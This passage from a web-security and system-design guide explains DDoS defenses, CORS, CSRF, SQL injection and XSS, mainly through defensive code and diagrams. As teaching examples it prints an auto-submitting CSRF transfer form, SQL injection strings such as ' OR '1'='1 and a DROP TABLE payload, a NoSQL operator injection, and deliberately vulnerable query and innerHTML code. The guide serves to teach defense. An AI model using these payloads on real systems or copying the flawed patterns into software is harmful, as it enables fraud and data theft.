- **AWS Shield Standard** automatically protects all AWS customers against common L3/L4 attacks at no extra cost. **AWS Shield Advanced** (paid) adds L7 protection with AWS WAF, a 24/7 response team, and credits for scaling costs caused by attacks.
- **Google Cloud Armor** protects apps behind Google's global load balancers. In 2023 Google reported stopping an HTTP/2 "Rapid Reset" L7 attack peaking at about **398 million requests per second**.
- **Akamai Prolexic** is a scrubbing-center service; it is what GitHub used during the 2018 memcached attack.
- After the Dyn attack, many companies started using **two DNS providers** so one can fail without taking them offline.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Always-on CDN / anycast proxy (Cloudflare, CloudFront + Shield) | Most public websites and APIs | All traffic flows through a third party, which also terminates your TLS |
| On-demand scrubbing (traffic rerouted when attacked) | Large companies with their own IP ranges and data centers | Switching over can take minutes; expensive |
| DIY (SYN cookies, nginx rate limits, firewall rules) | Small L7 floods, internal services | Useless against volumetric attacks bigger than your link |
| Autoscaling | Absorbing L7 spikes | Huge bills without a maximum cap |

**⚠️ Common mistakes:**
- **Origin IP leaks** (old DNS records, a mail server on the same IP, a forgotten subdomain), letting attackers bypass the CDN and hit the origin directly.
- **Autoscaling with no max limit** — the attack turns into a giant cloud bill.
- Relying on **a single DNS provider** (the Dyn lesson).
- Rate limiting **only by IP**: botnets have many IPs, and many real users share one IP behind a company or mobile carrier NAT. Also limit per user, session or API key.
- Leaving **expensive, uncached endpoints** (search, report export, login) without limits, so a small HTTP flood melts the database.
- Having **no runbook** — not knowing who to call or which switch to flip when an attack starts at 3 a.m.

**🎯 Remember:** You can't out-muscle a DDoS from your own servers — absorb it with a big anycast network, filter at the edge, hide your origin, and make each request cheap behind it.

**🔗 See also:** [#1 DNS](#1-dns), [#2 TCP vs UDP](#2-tcp-vs-udp), [#9 CDN](#9-cdn), [#14 Rate Limiting](#14-rate-limiting), [#38 Caching](#38-caching), [#65 Autoscaling](#65-autoscaling), [#97 WAF](#97-waf--web-application-firewall)

---


### 99. CORS

> **In one line:** CORS (Cross-Origin Resource Sharing) is how a server tells the browser, "it's OK for JavaScript from *that* other website to read my responses."

**🏠 Real-life analogy:** Imagine an apartment building where every flat has its own mailbox. The building rule (the **Same-Origin Policy**) says residents may only open their *own* mail. If flat 4B wants to read some of flat 7A's mail, it isn't enough for 4B to ask — 7A has to leave a signed note with the doorman saying "4B is allowed to read my mail." CORS is that signed note. The doorman (the **browser**) checks the note before handing anything over.

**❓ What problem does it solve?**

First you need the **Same-Origin Policy (SOP)**. An **origin** is the combination of **scheme + host + port**. Two URLs have the same origin only if all three match. Compared with `https://shop.example.com`:

| URL | Same origin? | Why |
|---|---|---|
| `https://shop.example.com/cart` | ✅ Yes | Only the path differs (paths don't matter) |
| `http://shop.example.com` | ❌ No | Different scheme (http vs https) |
| `https://api.example.com` | ❌ No | Different host (subdomains count) |
| `https://example.com` | ❌ No | Different host |
| `https://shop.example.com:8443` | ❌ No | Different port (https default is 443) |

- **Why browsers block cross-origin reads:** you are logged into your bank in one tab. In another tab you open `evil.example`. Without the SOP, JavaScript on `evil.example` could call `fetch("https://bank.example/api/balance")` — the browser would attach your bank cookies — and then *read* your balance and transactions. The SOP stops `evil.example` from reading the response.
- **But real apps legitimately need cross-origin calls:** your frontend at `https://app.example.com` calls your API at `https://api.example.com`. That is a different origin, so the browser blocks it by default.
- **CORS** is the standard, safe way for the API to *relax* the SOP for specific, trusted origins only.

**⚙️ How it works:**
1. When JavaScript makes a cross-origin request, the browser adds an `Origin` header saying where the page came from, e.g. `Origin: https://app.example.com`.
2. The server answers with **CORS response headers**:

| Header | Meaning |
|---|---|
| `Access-Control-Allow-Origin` | Which origin may read the response: one exact origin, or `*` (anyone) |
| `Access-Control-Allow-Methods` | (Preflight) which HTTP methods are allowed, e.g. `GET, POST, PUT` |
| `Access-Control-Allow-Headers` | (Preflight) which request headers are allowed, e.g. `Authorization, Content-Type` |
| `Access-Control-Allow-Credentials` | `true` = cookies/HTTP auth may be included, and JS may read the response |
| `Access-Control-Max-Age` | How many seconds the browser may cache the preflight answer (browsers cap it, e.g. Chrome at 2 hours) |
| `Access-Control-Expose-Headers` | Extra response headers JavaScript is allowed to see |

3. The **browser** compares the headers with the request. If they allow it, JavaScript gets the response. If not, the browser hides the response and JavaScript gets a "blocked by CORS policy" error.
4. **Simple requests** are sent directly (the browser checks the headers on the response). A request is "simple" if it is `GET`, `HEAD` or `POST`, uses only basic headers, and its `Content-Type` (if any) is `application/x-www-form-urlencoded`, `multipart/form-data` or `text/plain` — basically what an old-school HTML form could already send.
5. **Preflighted requests:** anything else — `PUT`, `DELETE`, `PATCH`, `Content-Type: application/json`, an `Authorization` header, custom headers — first triggers an automatic **preflight**: an `OPTIONS` request asking "would you accept this?". Only if the server says yes does the browser send the real request.
6. **Cookies cross-origin** need *both* sides to opt in: the JavaScript uses `fetch(url, { credentials: "include" })`, and the server replies with `Access-Control-Allow-Credentials: true` plus the **exact** origin (not `*`).

```mermaid
sequenceDiagram
    participant JS as JavaScript on app.example.com
    participant B as Browser
    participant API as api.example.com
    JS->>B: fetch PUT /orders/42 with JSON body and Authorization header
    Note over B: Not a simple request, so preflight first
    B->>API: OPTIONS /orders/42 with Origin and Access-Control-Request-Method PUT
    API-->>B: 204 with Allow-Origin app.example.com, Allow-Methods PUT, Max-Age 600
    alt Preflight allows this origin, method and headers
        B->>API: PUT /orders/42 with Origin header and body
        API-->>B: 200 OK with Access-Control-Allow-Origin app.example.com
        B-->>JS: Response is readable
    else Origin or method not allowed
        B-->>JS: TypeError - blocked by CORS policy
    end
```

```mermaid
flowchart LR
    Page["Page from app.example.com"] -->|"fetch to api.example.com"| Browser["Browser adds<br/>Origin header"]
    Browser --> Server["API server"]
    Server -->|"response + CORS headers"| Check{"Allow-Origin matches<br/>app.example.com?"}
    Check -->|"yes"| Readable["JavaScript can read it"]
    Check -->|"no"| Blocked["Browser hides response<br/>(CORS error in console)"]
```

**💻 Example:**

What a preflight looks like on the wire:

```http
OPTIONS /orders/42 HTTP/1.1
Host: api.example.com
Origin: https://app.example.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization, content-type

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 600
Vary: Origin
```

An Express (Node.js) API using the popular `cors` package with an **allowlist**:

```js
const express = require("express");
const cors = require("cors");
const app = express();

// Exact origins only - no wildcards, no "endsWith" tricks
const ALLOWLIST = ["https://app.example.com", "https://admin.example.com"];

app.use(cors({
  origin(origin, callback) {
    // No Origin header = not a browser CORS request (curl, server-to-server)
    if (!origin || ALLOWLIST.includes(origin)) return callback(null, true);
    return callback(null, false); // no CORS headers -> browser blocks the read
  },
  methods: ["GET", "POST", "PUT", "DELETE"],
  allowedHeaders: ["Content-Type", "Authorization"],
  credentials: true, // sends Access-Control-Allow-Credentials: true
  maxAge: 600,       // cache preflight answers for 10 minutes
}));

app.get("/orders", (req, res) => res.json([{ id: 42 }]));
app.listen(3000);
```

When `origin` is dynamic, the package also adds `Vary: Origin`, which tells caches and CDNs that the response differs per origin.

**🌍 Real-world usage:**
- **Single-page apps** (React, Vue, Angular) on `app.` calling an API on `api.` — the most common reason you'll meet CORS.
- **Web fonts** loaded from another origin require CORS, which is why font CDNs like Google Fonts send `Access-Control-Allow-Origin: *`.
- **Public, cookie-less APIs and CDNs** (for example jsDelivr) use `*` because the data is public anyway.
- **AWS S3** buckets and **API Gateway** have built-in CORS settings; API gateways and reverse proxies (#13, #11) often handle CORS centrally.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| No CORS headers (default) | API is only called from the same origin or from servers | Browsers on other origins can't use it |
| `Access-Control-Allow-Origin: *` | Truly public, read-only data with no cookies | Cannot be combined with credentials |
| Exact-origin allowlist + credentials | Your own frontends calling your API with cookies | Must maintain the list; needs `Vary: Origin` |
| Same origin via reverse proxy (`app.example.com/api`) | You want to avoid CORS entirely | Extra routing setup |

**⚠️ Common mistakes:**
- **`*` with credentials:** browsers refuse `Access-Control-Allow-Origin: *` together with `Access-Control-Allow-Credentials: true`. People then "fix" it the dangerous way…
- **Reflecting any `Origin`** back into `Access-Control-Allow-Origin` with credentials on. That lets *every* website read logged-in users' data — the same as having no SOP at all. Also beware sloppy checks like `origin.endsWith("example.com")`, which also matches `evilexample.com`, and allowing the `null` origin.
- **Thinking CORS protects your server.** It doesn't. `curl`, Postman, scripts and other servers ignore CORS completely. CORS only protects **users' browsers** from other websites reading responses. Your API still needs real authentication and authorization (#92, #93).
- **Thinking CORS stops requests from being sent.** Simple requests (like a form POST) still reach your server — CORS only blocks *reading* the response. Preventing unwanted actions is CSRF protection (#100).
- Forgetting `Vary: Origin` so a CDN caches one origin's CORS headers and serves them to everyone.

**🎯 Remember:** Origin = scheme + host + port. The browser blocks cross-origin *reads*; CORS headers are the server's allowlist to relax that — it protects users' browsers, not your API.

**🔗 See also:** [#100 CSRF](#100-csrf), [#102 XSS](#102-xss), [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc), [#13 API Gateway](#13-api-gateway), [#11 Reverse Proxies](#11-reverse-proxies)

---

### 100. CSRF

> **In one line:** CSRF (Cross-Site Request Forgery) tricks your logged-in browser into sending a request to a site you trust, so the site thinks *you* asked for it.

**🏠 Real-life analogy:** You have a standing arrangement with your bank: any letter arriving in an envelope with your signature stamp is obeyed. A con artist can't steal the stamp — but they hand you a sealed envelope and say "please drop this in the bank's mailbox for me". You do it without looking. Inside is a letter saying "transfer $1,000 to the con artist", and since it went through *your* hands, it gets *your* stamp. The bank sees a valid stamp and obeys. Your browser is you, the cookie is the stamp.

**❓ What problem does it solve?**
- Browsers **automatically attach cookies** to requests going to a site — historically no matter *which* site started the request.
- So if `evil.example` makes your browser send `POST https://bank.example/transfer`, your bank session cookie rides along, and the bank sees a perfectly valid, logged-in request.
- The Same-Origin Policy (#99) stops `evil.example` from *reading* the response — but the transfer has already happened. CSRF is a **"blind" attack on actions** (state changes): transferring money, changing the account email, deleting data, changing a password.
- Without CSRF protection, any website you visit while logged in elsewhere could act as you.

**⚙️ How it works:**

The attack (conceptually):
1. The victim logs into `bank.example`; the browser stores a session cookie.
2. The victim later visits `evil.example` (a link in an email, an ad, a forum post).
3. That page contains a hidden form pointing at `bank.example/transfer` and a line of script that submits it automatically.
4. The browser sends the POST **with the bank cookie attached**. The bank can't tell it apart from a real click.

The defenses (use several together — "defense in depth"):
1. **SameSite cookies** — a cookie attribute telling the browser when to send the cookie on cross-site requests:
   - `SameSite=Strict`: never sent on cross-site requests (even clicking a link from an email lands you logged out).
   - `SameSite=Lax`: sent on top-level navigations with safe methods (clicking a normal link, `GET`), but **not** on cross-site `POST` forms, `fetch`, images or iframes. Modern Chrome treats cookies with no `SameSite` attribute as **Lax by default**, but not every browser does, so always set it explicitly.
   - `SameSite=None; Secure`: always sent — only for real cross-site needs like embedded widgets.
   - Note: "same-*site*" means the same registrable domain, so a compromised sibling subdomain (`blog.bank.example`) counts as same-site. SameSite is strong, but not a complete defense alone.
2. **Anti-CSRF token (synchronizer token pattern):** the server generates a long random token, stores it in the user's session, and puts it in every form as a hidden field. On each state-changing request, the server checks that the submitted token matches the session. `evil.example` can't read your bank's pages (SOP), so it can't know the token.
3. **Double-submit cookie:** for stateless servers. The server sets a random token in a cookie, and the frontend copies it into a request header (e.g. `X-CSRF-Token`). The server checks the cookie and the header match. An attacker can make the browser *send* the cookie but can't *read* it to put in the header. Prefer the **signed** variant (token tied to the session with an HMAC) so an attacker who can plant cookies can't forge a pair.
4. **Check `Origin` / `Referer`:** browsers add an `Origin` header to cross-origin POSTs. Reject state-changing requests whose `Origin` isn't yours. Modern browsers also send **`Sec-Fetch-Site`** (`same-origin`, `same-site`, `cross-site`), which makes this check easy.
5. **Never change state with `GET`.** A `GET` can be triggered by a simple `` or a link — and `SameSite=Lax` allows cookies on top-level `GET` navigations.
6. **Re-authenticate for dangerous actions:** ask for the password or a 2FA code before changing the email, password or payout account.

**Why token-in-header APIs are less exposed:** if your API authenticates with `Authorization: Bearer <token>` (for example a JWT, #94) instead of cookies, the browser never adds that header automatically. JavaScript must add it explicitly, and `evil.example`'s JavaScript can't read your token. Custom headers also force a CORS preflight. The catch: tokens stored in `localStorage` can be stolen by XSS (#102), and if the API *also* accepts cookies, CSRF is back.

```mermaid
sequenceDiagram
    participant V as Victim browser
    participant Bank as bank.example
    participant Evil as evil.example
    V->>Bank: POST /login with username and password
    Bank-->>V: Set-Cookie session=abc123
    Note over V: Victim stays logged in and keeps browsing
    V->>Evil: GET / after clicking a link in an email
    Evil-->>V: Page with a hidden form and auto-submit script
    V->>Bank: POST /transfer to=attacker amount=1000 plus session cookie
    Note over Bank: Cookie is valid, so it looks like a real user action
    Bank-->>V: 200 Transfer complete
    Note over Evil: Attacker never saw the cookie - the browser lent it
```

```mermaid
flowchart TD
    Req["State-changing request<br/>(POST / PUT / DELETE)"] --> S1{"Session cookie sent?<br/>(SameSite=Lax blocks cross-site POST)"}
    S1 -->|"no cookie"| Reject1["Treated as logged out"]
    S1 -->|"cookie present"| S2{"Origin or Sec-Fetch-Site<br/>is our own site?"}
    S2 -->|"no"| Reject2["403 Forbidden"]
    S2 -->|"yes"| S3{"CSRF token matches<br/>the session?"}
    S3 -->|"no"| Reject2
    S3 -->|"yes"| Ok["Process the request"]
```

**💻 Example:**

What the attacker's page looks like (the classic textbook form — shown so you can recognize it):

```html
<!-- On evil.example: the user sees nothing -->
<form action="https://bank.example/transfer" method="POST" id="f">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.getElementById("f").submit();</script>
```

Defending in Express (Node.js) — safe cookie flags plus an origin check that runs **before** every route:

```js
const express = require("express");
const app = express();
const OUR_ORIGIN = "https://bank.example";

// 1) Reject cross-site state-changing requests (runs before all routes)
app.use((req, res, next) => {
  if (["GET", "HEAD", "OPTIONS"].includes(req.method)) return next();
  const origin = req.get("Origin");
  const site = req.get("Sec-Fetch-Site");
  if ((origin && origin !== OUR_ORIGIN) || site === "cross-site") {
    return res.status(403).send("CSRF check failed");
  }
  next(); // 3) ...and still verify a CSRF token, e.g. with csrf-csrf or csrf-sync
});

// 2) Session cookie: no JS access, HTTPS only, not sent on cross-site POSTs
app.post("/login", (req, res) => {
  const sessionId = createSession(req); // your login logic
  res.cookie("session", sessionId, { httpOnly: true, secure: true, sameSite: "lax" });
  res.redirect("/");
});
```

In Django the token pattern is built in — the CSRF middleware is on by default and you add one tag to each form:

```html
<form method="post" action="/transfer/">
    <!-- renders a hidden input with the token -->
  <input name="to"> <input name="amount">
  <button type="submit">Send</button>
</form>
```

**🌍 Real-world usage:**
- **Framework support:** Django (`CsrfViewMiddleware`), Ruby on Rails (`protect_from_forgery`), Spring Security (CSRF protection on by default), Laravel (`@csrf`), ASP.NET Core (antiforgery tokens).
- **Express:** the old `csurf` package is deprecated; common alternatives are `csrf-csrf` (double-submit) and `csrf-sync` (synchronizer token), plus SameSite cookies and Origin checks.
- Banks, GitHub and most large sites combine SameSite cookies, CSRF tokens and re-authentication ("confirm your password") for sensitive actions.
- The **OWASP CSRF Prevention Cheat Sheet** is the standard reference.

**⚖️ Trade-offs:**

| Defense | Pros | Cons |
|---|---|---|
| SameSite=Lax/Strict | One cookie flag, blocks most CSRF | Same-site subdomains still trusted; Strict hurts UX |
| Synchronizer token | Very strong, classic, framework-supported | Needs server-side session state |
| Signed double-submit cookie | Works for stateless servers and SPAs | Frontend must copy the token into a header |
| Origin / Sec-Fetch-Site check | Simple, no state | Some old clients or privacy tools omit headers |
| Bearer token in header | CSRF mostly doesn't apply | Token storage is exposed to XSS |

**⚠️ Common mistakes:**
- Changing state with **GET** (`/delete?id=5`, `/logout`, `/transfer?to=...`).
- Relying **only** on SameSite, or assuming every browser defaults to Lax.
- Using a **predictable** CSRF token, or validating it only when it is present ("no token? fine!").
- Leaking the token in URLs (it ends up in logs and `Referer` headers).
- Forgetting that **XSS defeats CSRF protection** — a script running on your own page can read the token (#102).

**🎯 Remember:** CSRF abuses the browser's habit of auto-attaching cookies. Block it with SameSite cookies + CSRF tokens + Origin checks, and never change state with GET.

**🔗 See also:** [#99 CORS](#99-cors), [#102 XSS](#102-xss), [#94 JWT & Key Rotation](#94-jwt--key-rotation), [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc)

---


### 101. SQL Injection

> **In one line:** SQL injection happens when user input is glued into a database query so the attacker's text gets run as part of the query.

**🏠 Real-life analogy:** A bank teller follows written slips exactly: "Give the customer named ____ their balance." A sneaky customer writes in the blank: "Bob. Also, open the vault and give me everything." A careless teller reads the whole slip as instructions and obeys. A careful teller treats whatever is written in the blank as *just a name* — no matter what it says. Parameterized queries make your database the careful teller.

**❓ What problem does it solve?**
- Apps talk to databases using **SQL** (Structured Query Language) — text commands like `SELECT * FROM users WHERE email = 'a@b.com'`.
- If you build that text by **concatenating** (sticking together) your code with user input, then special characters in the input — like `'` (which ends a string in SQL) — let the user **change the meaning of the query**.
- The classic login bypass. The app builds:

```sql
SELECT * FROM users WHERE username = 'USER_INPUT' AND password = 'PASS_INPUT';

-- The attacker types  alice  as the username and  ' OR '1'='1  as the password:
SELECT * FROM users WHERE username = 'alice' AND password = '' OR '1'='1';

-- AND is evaluated before OR, so this really means:
-- (username = 'alice' AND password = '')  OR  ('1' = '1')   -> TRUE for every row!
```

(Real apps compare password *hashes*, but the injection idea is identical.)
- The famous **xkcd "Exploits of a Mom"** comic: a mother names her son `Robert'); DROP TABLE Students;--`, nicknamed "little Bobby Tables". If the school builds `INSERT INTO Students (name) VALUES ('<name>');`, the `'` closes the string, `)` closes the values, `;` ends the statement, `DROP TABLE Students` runs as a *new* command, and `--` turns the rest into a comment.
- The damage: attackers can log in as anyone, read every table (passwords, credit cards), change or delete data, and sometimes take over the server. Injection has appeared in every edition of the **OWASP Top 10** list of web risks — it was #1 in 2010, 2013 and 2017, and #3 ("Injection", now including XSS) in 2021.

**⚙️ How it works:**
1. **The root cause:** mixing *code* (the SQL) and *data* (user input) in one string. The database parser can't tell which part you meant as data.
2. **The fix — parameterized queries (prepared statements):** you send the SQL with **placeholders** (`?`, `%s` or `$1` depending on the driver) and send the values **separately**. The database parses the query structure first, then plugs in the values purely as data. `' OR '1'='1` is just a weird password that matches nobody.
3. **ORMs help:** ORMs (Object-Relational Mappers — libraries like Django ORM, SQLAlchemy, Hibernate, Prisma that write SQL for you) parameterize automatically. But every ORM has a **raw SQL escape hatch** (`.raw()`, `text()`, `cursor.execute()`), and if you put f-strings in there, you're vulnerable again.
4. **Identifiers can't be parameterized:** placeholders work for *values*, not for table names, column names, or keywords like `ASC`/`DESC`. For things like `ORDER BY <column>`, map user input through an **allowlist** of known-good names.
5. **Input validation** (e.g. "age must be an integer", "status must be one of open/closed") is a helpful extra layer, but never the main defense.
6. **Least-privilege database user (#92):** the app's DB account should only have the permissions it needs (e.g. `SELECT/INSERT/UPDATE` on its own tables), not admin rights. If an injection slips through, the damage is limited.
7. **Blind SQL injection:** sometimes the page shows no data and no errors, so attackers ask the database **yes/no questions** instead. *Boolean-based:* the page looks slightly different when a condition is true. *Time-based:* the attacker makes the query sleep a few seconds only when a condition is true and measures the response time. Automated tools can extract a whole database this way, one bit at a time — so "we don't show query results" is **not** a defense.
8. **Don't show raw database errors** to users; they hand attackers a map of your tables.

```mermaid
flowchart LR
    subgraph Unsafe["Unsafe: string concatenation"]
        In1["User input<br/>' OR '1'='1"] --> Glue["App glues it into<br/>the SQL text"]
        Glue --> Parse1["DB parser reads the<br/>input as SQL CODE"]
        Parse1 --> Leak["Condition always true:<br/>returns every row"]
    end
    subgraph Safe["Safe: parameterized query"]
        Tpl["SQL template<br/>WHERE email = ?"] --> Parse2["DB parses and plans<br/>the template first"]
        In2["User input<br/>' OR '1'='1"] -->|"sent separately as a value"| Bind["Bound as plain DATA"]
        Parse2 --> Bind
        Bind --> NoRows["Looks for an email literally<br/>equal to that text: 0 rows"]
    end
```

**💻 Example:**

Vulnerable vs safe Python (using the built-in `sqlite3`; other drivers work the same way):

```python
import sqlite3

conn = sqlite3.connect("shop.db")

def find_user_bad(email):
    # BAD: the f-string puts attacker text INSIDE the SQL code
    query = f"SELECT id, name FROM users WHERE email = '{email}'"
    return conn.execute(query).fetchall()

def find_user_good(email):
    # GOOD: '?' is a placeholder. SQL and value travel separately,
    # so the database always treats email as DATA, never as code.
    query = "SELECT id, name FROM users WHERE email = ?"
    return conn.execute(query, (email,)).fetchall()

# Column names can't be placeholders -> map input through an allowlist
SORTABLE = {"name": "name", "newest": "created_at"}

def list_users(sort_key):
    column = SORTABLE.get(sort_key, "created_at")  # unknown input -> safe default
    return conn.execute(f"SELECT id, name FROM users ORDER BY {column}").fetchall()
```

The ORM escape hatch (Django) — same rule applies:

```python
User.objects.filter(email=email)                                     # GOOD: ORM parameterizes
User.objects.raw("SELECT * FROM app_user WHERE email = %s", [email])  # GOOD: params list
User.objects.raw(f"SELECT * FROM app_user WHERE email = '{email}'")   # BAD: injection
```

A least-privilege database account (PostgreSQL):

```sql
-- The web app can read/write only the tables it needs. No superuser.
CREATE USER web_app WITH PASSWORD 'from-the-secrets-manager';
GRANT SELECT, INSERT, UPDATE ON orders, customers TO web_app;
-- Only a table's OWNER can DROP or ALTER it, so run migrations
-- with a separate account and never let web_app own the tables.
```

**🌍 Real-world usage:**
- Every major language has parameterized queries: Python DB-API (`?` / `%s`), Node `pg` (`$1`), Java `PreparedStatement`, Go `database/sql`, .NET `SqlCommand` parameters.
- Big breaches caused by SQL injection include **Heartland Payment Systems (2008)**, **TalkTalk (2015)** in the UK, and the **MOVEit Transfer** file-sharing software (2023), whose SQL injection flaw was exploited by a ransomware gang to steal data from many organizations.
- Security teams use scanners and code analysis (e.g. GitHub CodeQL, Semgrep) to flag string-built queries in pull requests, and WAF rules (#97) to catch noisy injection attempts.

**⚖️ Trade-offs:**

| Technique | Protects against | Limits |
|---|---|---|
| Parameterized queries | Injection through values — the main fix | Can't parameterize identifiers or keywords |
| ORM | Most everyday queries automatically | Raw-SQL escape hatches are still dangerous |
| Allowlist for identifiers | `ORDER BY`, table names, sort direction | You must maintain the list |
| Manual escaping / blocklists ("remove DROP") | Almost nothing reliably | Easy to bypass — avoid |
| Least-privilege DB user | Limits the damage | Doesn't stop the injection itself |
| WAF | Known, noisy payloads | Bypassable; not a fix |

**⚠️ Common mistakes:**
- Escaping quotes by hand or blocklisting words like `DROP` or `SELECT` instead of using placeholders.
- Thinking "we use an ORM, so we're immune" while using f-strings in raw queries.
- Building `ORDER BY`, table or column names directly from request parameters.
- Connecting as the database **owner or superuser**, so one bug can drop everything.
- Forgetting other injection types with the same root cause: NoSQL injection (e.g. a MongoDB query receiving `{"$ne": null}` instead of a string), OS command injection, LDAP injection.

**🎯 Remember:** Never build queries by gluing strings. Use parameterized queries so input is always *data*, allowlist identifiers, and give the app a least-privilege DB user.

**🔗 See also:** [#92 IAM](#92-iam), [#97 WAF](#97-waf--web-application-firewall), [#102 XSS](#102-xss), [#103 SSRF](#103-ssrf), [#91 Secrets Management](#91-secrets-management)

---

### 102. XSS

> **In one line:** XSS (Cross-Site Scripting) is when an attacker gets their own JavaScript to run inside *your* website, in other users' browsers.

**🏠 Real-life analogy:** A community notice board in a busy lobby. People pin up notes for everyone to read. One day someone pins up a note that isn't just text — it's a tiny robot that, when anyone reads it, picks their pocket and pins copies of itself everywhere. The building manager should have checked that every note was *just paper and ink* (plain text) before pinning it up.

**❓ What problem does it solve?**
- Websites constantly display user-supplied text: comments, names, reviews, search terms, chat messages.
- If the site puts that text into the page **as HTML** instead of as **plain text**, an attacker can submit something like `<script>...</script>` or ``, and the victim's browser will **run it**.
- Because the script runs on *your* origin, the Same-Origin Policy (#99) doesn't help — the browser thinks it's your own code. The script can:
  - steal session cookies (if not `HttpOnly`) or tokens stored in `localStorage`;
  - perform **actions as the user** (post, transfer money, change the account email) — and read CSRF tokens (#100) to do so;
  - show a fake login form on your real domain to phish passwords, or record keystrokes;
  - deface the page or spread like a worm.
- **The Samy worm (2005):** Samy Kamkar found a way around MySpace's filters to put JavaScript into his profile. Anyone who viewed it automatically added Samy as a friend and copied the script into *their own* profile. It spread to **over a million profiles in about a day**, and MySpace had to take the site down to clean it up.

**⚙️ How it works:**

The three types:

| Type | Where the malicious script lives | How the victim gets hit | Example |
|---|---|---|---|
| **Stored** (persistent) | Saved in your database (comment, profile, review) | Anyone who views that page | The Samy worm on MySpace profiles |
| **Reflected** | In the request (e.g. a URL parameter) and echoed straight back in the response | Victim clicks a crafted link | Search page prints "Results for: *query*" without escaping |
| **DOM-based** | Never touches your server; your *own* page JavaScript reads from the URL and writes it into the page | Victim clicks a crafted link | `el.innerHTML = location.hash.slice(1)` |

The defenses:
1. **Contextual output encoding (escaping):** convert special characters so the browser shows them as text. In HTML, `<` becomes `&lt;` and `>` becomes `&gt;`. The right encoding depends on **where** the data goes (HTML body, attribute, URL, JavaScript), hence "contextual".
2. **Use frameworks that auto-escape:** React (`{value}` in JSX), Vue (`{{ value }}`), Angular, Django and Jinja2 templates escape by default. The danger is their **escape hatches**: React `dangerouslySetInnerHTML`, Vue `v-html`, Jinja `|safe`, and in plain JavaScript `innerHTML`, `outerHTML`, `document.write` and `eval`.
3. **Sanitize HTML when you must allow it:** for rich-text comments with bold and links, run the HTML through a well-tested sanitizer like **DOMPurify** (browser/Node) or **nh3** (Python) that keeps safe tags and strips scripts and event handlers. Never write your own regex-based filter.
4. **Validate URLs:** only allow `http:` and `https:` links from users — a `javascript:` URL in an `href` runs code when clicked.
5. **Content-Security-Policy (CSP):** an HTTP response header telling the browser which scripts are allowed to run. With a strict CSP, an injected inline script is blocked even if escaping failed somewhere. Test it first with `Content-Security-Policy-Report-Only`.
6. **HttpOnly cookies:** JavaScript can't read `HttpOnly` cookies (`document.cookie` won't show them), so XSS can't simply steal the session. (It can still act as the user while the page is open — so this limits damage, not the bug.)

```mermaid
sequenceDiagram
    participant A as Attacker
    participant Site as forum.example
    participant DB as Database
    participant V as Victim browser
    participant Evil as Attacker server
    A->>Site: Post a comment that contains a hidden script
    Site->>DB: Save the comment as-is (no escaping)
    V->>Site: Open the discussion thread
    Site->>DB: Load comments
    DB-->>Site: Comments including the malicious one
    Site-->>V: HTML page with the script embedded
    Note over V: Browser trusts it because it came from forum.example
    V->>Evil: Script sends the session token or acts as the victim
    Note over Site,V: Fix - escape on output, CSP, HttpOnly cookies
```

```mermaid
flowchart TD
    Data["Untrusted data<br/>(from users, URLs, APIs)"] --> Where{"Where will it be placed?"}
    Where -->|"HTML text"| Enc1["HTML-encode<br/>or use textContent"]
    Where -->|"HTML attribute"| Enc2["Quote the attribute<br/>and attribute-encode"]
    Where -->|"link href / src"| Enc3["Allow only http/https,<br/>then URL-encode"]
    Where -->|"inside a script"| Enc4["Avoid it, or pass<br/>as JSON data"]
    Where -->|"rich HTML needed"| Enc5["Sanitize with DOMPurify"]
```

**💻 Example:**

Vulnerable vs safe browser JavaScript:

```js
// Imagine an attacker submitted this as their comment:
// 

// BAD: the browser parses the string as HTML and runs the onerror code
commentDiv.innerHTML = userComment;

// GOOD: shown as plain text - the tags appear literally on screen
commentDiv.textContent = userComment;

// GOOD (when you truly need some HTML like <b> or <a>): sanitize first
import DOMPurify from "dompurify";
commentDiv.innerHTML = DOMPurify.sanitize(userComment);
```

The same in React:

```jsx
// Safe: React escapes {comment.text} automatically
<p>{comment.text}</p>

// Escape hatch - only ever with sanitized HTML!
<p dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(comment.html) }} />
```

A strict Content-Security-Policy header (the nonce is a random value generated fresh for every response and added to your own `<script nonce="...">` tags):

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-4f9a1c2e7b'; object-src 'none'; base-uri 'none'; frame-ancestors 'none'
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

`script-src` allows only your own files and scripts carrying the nonce (injected inline scripts are blocked), `object-src 'none'` disables old plugins, `base-uri 'none'` stops `<base>` tag tricks, and `frame-ancestors 'none'` prevents your page from being framed.

**🌍 Real-world usage:**
- Google, GitHub and Facebook run bug bounty programs where XSS is one of the most commonly reported bugs.
- **CSP** is used by many large sites (GitHub is well known for a strict policy). Google has promoted nonce-based "strict CSP" and **Trusted Types**, a browser feature that makes dangerous sinks like `innerHTML` refuse plain strings.
- **DOMPurify** is the go-to HTML sanitizer in JavaScript; most rich-text editors recommend it.
- Modern frameworks (React, Angular, Vue, Django, Rails) escape output by default, which has made basic XSS much rarer — most new XSS bugs come through escape hatches and third-party scripts.

**⚖️ Trade-offs:**

| Defense | Pros | Cons |
|---|---|---|
| Auto-escaping templates/frameworks | On by default, covers most cases | Escape hatches reopen the hole |
| Contextual encoding by hand | Works anywhere | Easy to use the wrong context |
| HTML sanitizer (DOMPurify) | Lets users post safe rich text | Must keep it updated; config matters |
| Content-Security-Policy | Strong second layer even if a bug slips in | Can break inline scripts and third-party widgets; needs tuning |
| HttpOnly cookies | Stops simple cookie theft | Doesn't stop actions taken as the user |

**⚠️ Common mistakes:**
- Using `innerHTML`, `dangerouslySetInnerHTML`, `v-html` or `|safe` with user data.
- Escaping for the **wrong context** (HTML-escaping a value that goes into a `<script>` block or an `href`).
- Writing a **homemade blocklist** ("strip `<script>`") — attackers use event handlers like `onerror`, SVG, odd casing and encodings.
- Storing session tokens in `localStorage`, where any XSS can read them.
- Adding CSP with `'unsafe-inline'` in `script-src`, which mostly defeats the purpose.

